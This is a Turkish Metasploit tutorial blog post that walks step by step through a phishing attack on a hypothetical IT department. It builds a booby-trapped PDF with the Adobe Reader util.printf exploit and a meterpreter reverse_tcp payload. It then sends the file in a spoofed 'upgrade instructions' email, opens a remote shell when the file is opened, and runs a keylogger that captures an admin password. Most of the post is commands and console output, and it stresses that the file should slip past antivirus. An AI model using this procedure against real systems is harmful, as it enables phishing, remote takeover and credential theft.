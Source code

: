 ```yaml
---
draft: false

title:  'MSF Binary İstemci Exploitleri'
date: '2017-05-20T13:13:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
 
 
url:  /tr/msf-binary-istemci-exploitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Tarafı Exploitler



Önceki yazılarımızda Windows ve Linux için kullanılan istemci tarafı exploitleri görmüştük. Bu yazımızda başka bir senaryoya bakmak istiyorum.



Başarılı bir bilgi toplama safhasından sonra bir IT firması ile ilgili şu sonuca ulaştığımızı farz edelim. Firma;



1) Kullandıkları sistemler en yeni teknolojidir.



2) IT departmanının eposta adresi: itdept@victim.com



Şimdi bu durumda, IT departmanında bir bilgisayara ulaşmak ve keylogger adı verilen (tuş kaydedici) çalıştırmak istiyoruz. Bu sayede klavyeden bastıkları tuşları kayıt ederek yararlı bilgiler elde etmek mümkün olacaktır.



`msfconsole` komutu ile Metasploit Framework’ü çalıştıralım. IT departmanının ilgisini çekecek ve açıp okumak isteyeceği bir PDF dokümanı hazırlayalım. Dokümanın güvenlikle ilgili ve mantıklı bir başlığının olması gerektiğini unutmayın. Ayrıca Antivirüs yazılımları tarafından zararlı olarak algılanmaması gerekmektedir.



Böyle bir PDF dokümanı hazırlamak için **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Zafiyetini** kullanacağız. Bunun için `exploit/windows/fileformat/adobe_utilprintf` modülünü yükleyelim.


```bash
msf **>** use exploit/windows/fileformat/adobe_utilprintf
msf exploit**(**adobe_utilprintf**)** **>** set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME **=>** BestComputers-UpgradeInstructions.pdf
msf exploit**(**adobe_utilprintf**)** **>** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**adobe_utilprintf**)** **>** set LHOST 192.168.8.128
LHOST **=>** 192.168.8.128
msf exploit**(**adobe_utilprintf**)** **>** set LPORT 4455
LPORT **=>** 4455
msf exploit**(**adobe_utilprintf**)** **>** show options

Module options **(**exploit/windows/fileformat/adobe_utilprintf**)**:

   Name      Current Setting                        Required  Description
   ----      ---------------                        --------  -----------
   FILENAME  BestComputers-UpgradeInstructions.pdf  yes       The file name.


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique **(**Accepted: '', seh, thread, process, none**)**
   LHOST     192.168.8.128    yes       The listen address
   LPORT     4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Adobe Reader v8.1.2 **(**Windows XP SP3 English**)**
```



Çıktıdan da görüleceği gibi `FILENAME` değişkenini yani dosya adını istediğiniz gibi ayarlayabilirsiniz. Payload kısmında ise `LHOST` ve `LPORT` değişkenlerini dinleme yapılacak bilgisayarın bilgileri olarak ayarlamamız gerekmektedir. Ardında `exploit` komutu ile modülü çalıştıralım.


```bash
msf exploit**(**adobe_utilprintf**)** **>** exploit

**[*********]** Creating 'BestComputers-UpgradeInstructions.pdf' file...
**[*********]** BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit**(**adobe_utilprintf**)** **>**
```



Görüldüğü gibi PDF dosyası, `/root/.msf4/local/` içerisine oluşturulmuştur. Bu dosyayı kolay ulaşım için `/tmp` klasörü içine kopyalayalım. Şimdi dosyamızı ilgili eposta adresine göndermeden önce bilgisayarımızda dinleyici modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü kullanacağız. `LHOST` ve `LPORT` değerlerini PDF dosyası oluştururken verdiğimiz değerlerle aynı olmasına dikkat ediyoruz.


```bash
msf **>** use exploit/multi/handler
msf exploit**(**handler**)** **>** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**handler**)** **>** set LPORT 4455
LPORT **=>** 4455
msf exploit**(**handler**)** **>** set LHOST 192.168.8.128
LHOST **=>** 192.168.8.128
msf exploit**(**handler**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
```



Dinleyici modülü aktif hale getirdikten sonra bir şekilde PDF dosyasını `itdept@victim.com` adresine göndermemiz gerekiyor. Bunu aşağıdaki örnek komutla yapabilirsiniz. Başka eposta gönderme yöntemleri de kullanabilirsiniz. Komut örnek olarak verilmiştir.


```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions **for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```



Bu örnek komutta kullanılan parametreleri kısaca açıklayalım.



`-t`: TO yani alıcı adresi ifade eder. `-f`: FROM yani gönderici adresi ifade eder. `-s`: SMTP Server IP adresini ifade eder. `-u`: TTITLE yani postanın konusunu ifade eder. `-a`: ATTACHMENT yani ekli dosyayı ifade eder.



Komutu yazıp ENTER tuşuna bastığınızda, epostanın Metin kısmını yazmaya başlayabilirsiniz. Yazım tamamlandıktan sonra CTRL+D tuşları ile işlemi tamamlayabilirsiniz. Böylece posta alıcı adrese gönderilecektir.



Alıcı, bu postayı alıp Antivirüs programı ile kontrol ettiğinde zararsız olarak sonuç alacaktır ancak dosyayı açmak için tıkladığında karşısına boş bir ekran gelse bile aslında dinleyici bilgisayarla iletişim kurulmuş olur.


```bash
**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
**[*********]** Sending stage **(**718336 bytes**)**
session[*******]** Meterpreter session 1 opened **(**192.168.8.128:4455 -> 192.168.8.130:49322**)**

meterpreter **>**
```



Gördüğünüz gibi, PDF dosyası açıldığında Meterpreter shell açılmış durumdadır. Artık karşı tarafın bilgisayarında çeşitli komutları çalıştırmak mümkündür. Son olarak `post/windows/capture/keylog_recorder` modülünü çalıştırarak tuş hareketlerini kaydetmek mümkün hale gelmiştir.


```bash
meterpreter **>** ps

Process list
**============**

    PID   Name            Path                                 
    ---   ----            ----                                 
    852   taskeng.exe     C:\Windows\system32\taskeng.exe      
    1308  Dwm.exe         C:\Windows\system32\Dwm.exe          
    1520  explorer.exe    C:\Windows\explorer.exe              
    2184  VMwareTray.exe  C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    2196  VMwareUser.exe  C:\Program FilesVMware\VMware Tools\VMwareUser.exe
    3176  iexplore.exe    C:\Program Files\Internet Explorer\iexplore.exe
    3452  AcroRd32.exe    C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter **>** run post/windows/manage/migrate 

**[*********]** Running module against V-MAC-XP
**[*********]** Current server process: svchost.exe **(**1076**)**
**[*********]** Migrating to explorer.exe...
**[*********]** Migrating into process ID 816
**[*********]** New server process: Explorer.EXE **(**816**)**

meterpreter **>** sysinfo
Computer: OFFSEC-PC
OS      : Windows Vista **(**Build 6000, **)**.

meterpreter **>** use priv
Loading extension priv...success.

meterpreter **>** run post/windows/capture/keylog_recorder 

**[*********]** Executing module against V-MAC-XP
**[*********]** Starting the keystroke sniffer...
**[*********]** Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
**[*********]** Recording keystrokes...
```



Kaydedilen tuşları, `20110323091836_default_192.168.1.195_host.windows.key_832155.txt` dosyasının içeriğinden kontrol edebilirsiniz.


```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support,   I tried to open ti his file 2-3 times with no success.  I even had my admin and CFO tru   y it, but no one can get it to p open.  I turned on the rmote access server so you can log **in **to fix our p         this problem.  Our user name is admin and password **for **that session is 123456.   Call or eme ail when you are **done**.   Thanks IT Dept
```



Görüldüğü gibi IT çalışanı, tuş hareketlerinde kullanıcı adının `admin` ve parolasının `123456` olduğunu habersizce ortaya çıkarmıştır.
